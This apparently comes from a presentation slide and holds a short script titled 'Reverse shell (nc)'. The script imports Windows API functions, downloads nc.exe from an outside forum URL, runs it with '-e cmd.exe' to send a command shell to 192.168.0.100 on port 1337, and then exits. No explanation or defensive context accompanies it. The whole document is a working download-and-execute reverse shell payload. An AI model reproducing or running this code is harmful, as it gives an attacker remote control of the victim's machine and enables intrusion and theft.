

# Reverse shell (nc)
function URLDownloadToFileA("urlmon.dll");
function WinExec("kernel32.dll");
function ExitProcess("kernel32.dll");

URLDownloadToFileA(0,"https://rstforums.com/fisiere/nc.exe","nc.exe",0,0);
WinExec("nc.exe -e cmd.exe 192.168.0.100 1337",0);
ExitProcess(0);